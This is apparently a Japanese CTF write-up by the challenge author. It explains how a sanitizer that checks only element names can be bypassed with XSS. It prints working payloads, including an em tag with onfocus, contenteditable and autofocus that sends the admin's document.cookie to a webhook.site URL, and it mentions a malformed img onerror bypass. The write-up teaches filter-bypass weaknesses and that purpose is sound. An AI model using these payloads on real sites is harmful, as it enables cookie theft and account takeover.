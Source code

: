 `isSafe` は以下のような処理になっています。DOMツリーを再帰的に辿り、どのノードも名前 (`nodeName`) が `#text` (テキスト), `#document-fragment`, `BR`, `DEL`, `EM`, `STRONG` のいずれかであるかをチェックしています。なんとかしてこのチェックをバイパスできないでしょうか。

```javascript
// this check ensures that the input doesn't have dangerous HTML tags!
function isSafe(node) {
  if (![...node.childNodes].every(isSafe)) {
    return false;
  }

  if (!['#text', '#document-fragment', 'BR', 'DEL', 'EM', 'STRONG'].includes(node.nodeName)){
    return false;
  }

  return true;
}
```

### isSafeをバイパスする
`isSafe` をよく見ると、要素名だけチェックして属性についてはまったくチェックされていないことがわかります。`em` や `strong` のような要素を使いつつ、属性のみでJavaScriptコードの実行に持ち込むことはできないでしょうか。

`<img src="a.png" onload="alert(123)">` のように[イベントハンドラ属性](https://developer.mozilla.org/ja/docs/Learn/JavaScript/Building_blocks/Events#%E3%82%A4%E3%83%B3%E3%83%A9%E3%82%A4%E3%83%B3%E3%82%A4%E3%83%99%E3%83%B3%E3%83%88%E3%83%8F%E3%83%B3%E3%83%89%E3%83%A9%E3%83%BC_%E2%80%94_%E4%BD%BF%E3%81%A3%E3%81%A1%E3%82%83%E3%81%A0%E3%82%81)を使えば、特定のイベントが発火したときに、属性値として設定したJavaScriptコードを実行させることができます。MDNで[イベントハンドラの一覧](https://developer.mozilla.org/ja/docs/Web/API/GlobalEventHandlers)を眺めていると色々と使えそうなものがあることがわかりますが、`em` のような要素でも発火させられるものとして、その要素にフォーカスが当たった際に発火する `onfocus` に注目します。

ユーザインタラクションなしに `onfocus` 属性で設定したJavaScriptコードを実行させる方法はいくつか考えられますが、今回は [`contenteditable`](https://developer.mozilla.org/ja/docs/Web/HTML/Global_attributes/contenteditable) でその要素を編集可能にし、さらに[`autofocus`](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/autofocus) で自動的にフォーカスが当たるようにする方法を使ってみましょう。

これらを組み合わせて、`<em onfocus="alert(123)" contenteditable autofocus>test</em>` という内容のメモを投稿します。これで、開いた途端にダイアログが表示されるメモができあがりました。

### フラグを得る
この問題の目的はadminのCookieを盗み取ることでした。`navigator.sendBeacon('(URL)',document.cookie)` や `(new Image).src='(URL)?' + document.cookie` のようなコードで `document.cookie` を自身の管理下にあるWebサーバに送信させましょう。そのためだけにわざわざWebサーバを立てるのも面倒なので、[Webhook.site](https://webhook.site)や[RequestBin](https://requestbin.net/)を使いましょう。

`<em onfocus="navigator.sendBeacon('https://webhook.site/…',document.cookie)" contenteditable autofocus>test</em>` という内容のメモを投稿し、adminに報告します。すると、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。

![05.png](../images/2021-12-24_osoraku5.png)

```
HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```

---

かんたんなXSS問を目指して作った問題でした。実は `<img onerror=alert(123) src=x` のような感じでJSDOMがパースに失敗するような文字列を投げても通ります。この非想定解法は問題の動作チェック時に見つけたものですが、まあフィルターのバイパスをしているのは変わらないしいいかと思って修正しませんでした。
